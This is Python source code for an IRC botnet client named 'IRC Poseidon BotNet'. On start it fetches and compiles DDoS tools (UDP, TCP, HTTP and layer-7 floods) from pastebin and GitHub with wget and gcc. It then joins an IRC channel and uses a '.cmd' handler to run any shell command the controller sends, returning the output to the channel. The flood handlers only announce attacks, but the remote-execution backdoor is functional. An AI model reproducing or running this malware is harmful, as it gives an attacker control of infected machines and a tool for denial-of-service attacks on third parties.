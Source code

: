 #!/usr/bin/env python2.7
#IRC Poseidon BotNet
#Coded by Ergo (@ergo_hacker)

import os  
import subprocess 
import socket 
import time 
import commands 
import random 
from re import search

#IRC CONFIGURATION
server = "irc.freenode.net"   #IRC SERVER
channel = "#SupremeBotnet"         #IRC CHANNEL
port = 6667
nick = "BotAtack" + str(random.randint(1, 10000))

#Verify if scripts exists, if not, download then

###### LAYER 4
if not os.path.isfile("udp.pl"): #udp
	print "[#]Installing udp...[#]"
	os.system("wget https://pastebin.com/raw/XAhxXjHd -O udp.pl")

if not os.path.isfile("tcp.c"): #tcp
	print "[#]Installing tcp...[#]"
	os.system("wget https://raw.githubusercontent.com/PraneethKarnena/DDoS-Scripts/master/Layer-4/TCP-Advanced-ESSYN/tcp.c")
	os.system("gcc tcp.c -pthread -o tcp")

if not os.path.isfile("std.c"): #std
	print "[#]Installing std...[#]"
	os.system("wget https://raw.githubusercontent.com/KrawkRE/DDoS-API/master/a83f1ca5ad00b39773d9e6a26b0e70b2/STD.c -O std.c")
	os.system("gcc std.c -pthread -o std")

###### LAYER 7
if not os.path.isfile("sad.py"): #sadattack
	print "[#]Installing sadattack...[#]"
	os.system("wget https://raw.githubusercontent.com/adsfdasdf/tros/master/sadattack.py -O sad.py")

if not os.path.isfile("http.pl"): #httpabuse
	print "[#]Installing httpabuse...[#]"
	os.system("wget https://raw.githubusercontent.com/KrawkRE/DDoS-API/master/a83f1ca5ad00b39773d9e6a26b0e70b2/HTTP.pl -O http.pl")

if not os.path.isfile("l7.py"): #layer7
	print "[#]Installing layer7...[#]"
	os.system("wget https://raw.githubusercontent.com/H1R0GH057/Anonymous/master/17.py -O l7.py")

print nick 

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((server, port))
s.send("NICK "+ nick +"\r\n")
s.send("USER " + nick + "1 1 1 1\r\n")
s.send("Join " + channel + "\r\n")

#if dosen't connect in your server try in irc.freenode.net (don't block any bot)

time.sleep(1)
print (s.recv(1024))

print nick + " Supremo Configurou o Bot"
print "\033[0;32mConnected!\033[0m"
target = 0
while True:
	text = s.recv(2048)
	print (text)
	if text.find(":.cmd") != -1:
		msg = text
		msg = msg.split(".cmd")
		print msg
		cmd = msg[1].split("\r\n")
		print cmd #com \n\r
		print cmd[0] #sem \n\r (pronto pra ser executado!)
		output = commands.getoutput(cmd[0])
		s.send("PRIVMSG %s : 00[53IRC POSEIDON00 - 50CMD00 => 22%s00]  \r\n" %(channel, output.decode("utf-8")))
	################### LAYER 4 ####################
	if text.find(":.udp ") != -1:
		print "testing"
		s.send("PRIVMSG %s : 00[53IRC POSEIDON00 - 61UDP ATTACK STARTED00 => 04%s00]  \r\n" %(channel, target))

	if text.find(":.tcp ") != -1:
		print "testing"
		s.send("PRIVMSG %s : 00[53IRC POSEIDON00 - 09TCP ATTACK STARTED00 => 04%s00]  \r\n" %(channel, target))

	if text.find(":.std ") != -1:
		print "testing"
		s.send("PRIVMSG %s : 00[53IRC POSEIDON00 - 34STD ATTACK STARTED00 => 04%s00]  \r\n" %(channel, target))

	if text.find(":.stopudp ") != -1:
		print "testing"
		s.send("PRIVMSG %s : 00[53IRC POSEIDON00 - 61UDP ATTACK FINISHED00 => 04%s00]  \r\n" %(channel, target))

	if text.find(":.stoptcp ") != -1:
		print "testing"
		s.send("PRIVMSG %s : 00[53IRC POSEIDON00 - 09TCP ATTACK FINISHED00 => 04%s00]  \r\n" % (channel, target))

	if text.find(":.stopstd ") != -1:
		print "testing"
		s.send("PRIVMSG %s : 00[53IRC POSEIDON00 - 34STD ATTACK FINISHED00 => 04%s00]  \r\n" %(channel, target))

	################### LAYER 7 ####################
	if text.find(":.sad ") != -1:
		print "testing"
		s.send("PRIVMSG %s : 00[53IRC POSEIDON00 - 11SAD ATTACK STARTED00 => 04%s00]  \r\n" %(channel, target))

	if text.find(":.httpabuse ") != -1:
		print "testing"
		s.send("PRIVMSG %s : 00[53IRC POSEIDON00 - 29HTTPABUSE ATTACK STARTED00 => 04%s00]  \r\n" %(channel, target))

	if text.find(":.layer7 ") != -1:
		print "testing"
		s.send("PRIVMSG %s : 00[53IRC POSEIDON00 - 69LAYER7 ATTACK STARTED00 => 04%s00]  \r\n" %(channel, target))

	if text.find(":.stopsad ") != -1:
		print "testing"
		s.send("PRIVMSG %s : 00[53IRC POSEIDON00 - 11SAD ATTACK FINISHED00 => 04%s00]  \r\n" %(channel, target))

	if text.find(":.stopabuse ") != -1:
		print "testing"
		s.send("PRIVMSG %s : 00[53IRC POSEIDON00 - 29HTTPABUSE ATTACK FINISHED00 => 04%s00]  \r\n" %(channel, target))

	if text.find(":.stopl7 ") != -1:
		print "testing"
		s.send("PRIVMSG %s : 00[53IRC POSEIDON00 - 69LAYER7 ATTACK FINISHED00 => 04%s00]  \r\n" %(channel, target))






